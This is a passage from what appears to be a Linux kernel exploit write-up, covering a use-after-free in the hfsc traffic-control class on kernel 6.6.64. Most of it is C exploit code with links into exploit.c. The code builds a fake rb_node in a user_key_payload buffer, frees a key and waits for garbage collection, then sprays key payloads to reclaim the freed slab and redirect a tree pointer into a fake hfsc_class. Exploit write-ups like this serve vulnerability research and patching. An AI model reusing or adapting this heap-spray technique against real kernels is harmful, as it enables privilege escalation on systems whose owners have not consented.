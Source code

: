 #### Second rb_node is built with the following steps:
- Prepare data for further `user_key_payload` spray [[exploit.c#L1182]](../exploit/lts-6.6.64/exploit.c#L1182)
```c
memset(user_key_payload_write_buffer, 0, sizeof(user_key_payload_write_buffer));
fake_rb_node = (struct rb_node *)
	(
		user_key_payload_write_buffer + \
		struct_hfsc_class_member_el_node_offset - \
		sizeof(struct user_key_payload)
	);

fake_rb_node->__rb_parent_color = 0 | RB_BLACK;
fake_rb_node->rb_right = (struct rb_node *)(0);
fake_rb_node->rb_left = (struct rb_node *)
	(
		hfsc_class_leak_address + \
		sizeof(struct user_key_payload) - \
		(
			struct_user_key_payload_member_data_offset - \
			struct_user_key_payload_member_datalen_offset
		)
	);
```
- Free `user_key_payload_A`. Remember, currently `user_key_payload_A` is used to reclaim UAF pointer.
[[exploit.c#L1202]](../exploit/lts-6.6.64/exploit.c#L1202)
```c
user_key_payload_free_and_wait_for_gc(&(heap_read_primitive->key_A));
```

```c
void user_key_payload_free_and_wait_for_gc(key_serial_t *pkey)
{
	if (*pkey != -1) {
		Keyctl_unlink(*pkey, KEY_SPEC_USER_KEYRING);
		u32 x = 0;
		for (u32 i = 0; i < 0xFFFFFFFF; i++)
			x += i;
		*pkey = -1;
	}
}
```

- Spray many `struct user_key_payload` objects with data prepare above. I need to spray because sometime the slab contain `UAF_hfsc_class` is not active any more.
[[exploit.c#L1204]](../exploit/lts-6.6.64/exploit.c#L1204)
```c
for (u32 i = 0; i < heap_read_primitive->key_spray_count; i++) {
	heap_read_primitive->key_spray[i] = user_key_payload_alloc(
		heap_read_primitive->key_spray_descs[i],
		user_key_payload_write_buffer,
		sizeof(user_key_payload_write_buffer)
	);
}
```
- The `UAF_rb_node` look like this:
```c
UAF_rb_node->__rb_parent_color == NULL | RB_BLACK;
UAF_rb_node->rb_right == NULL;
UAF_rb_node->rb_left == hfsc_class_leak_address + sizeof(struct user_key_payload) - 8;
UAF_hfsc_class->cl_e == 0;
```
- `hfsc_class_leak_address + sizeof(struct user_key_payload) - 8` is actually the address of `&(fake_hfsc_class_backed_by_user_key_payload_B->datalen)`.